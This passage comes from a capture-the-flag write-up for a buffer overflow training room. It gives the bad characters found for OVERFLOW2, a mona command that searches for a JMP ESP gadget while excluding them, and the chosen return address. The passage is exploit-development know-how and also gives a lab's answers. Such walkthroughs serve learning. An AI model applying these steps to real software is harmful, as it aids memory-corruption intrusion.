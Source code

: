 ![Badchars final](/images/THM/buffprep/of2/Captura8.PNG)

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2?
>Answer: \x00,\x23,\x3c,\x83,\xba

##### Finding Right Module

Time to find the jump point for the execution of our shellcode.

```sh
!mona jmp -r esp -cpb "\x00,\x23,\x3c,\x83,\xba"
```

We can use the first one, with the vale **625011af**.

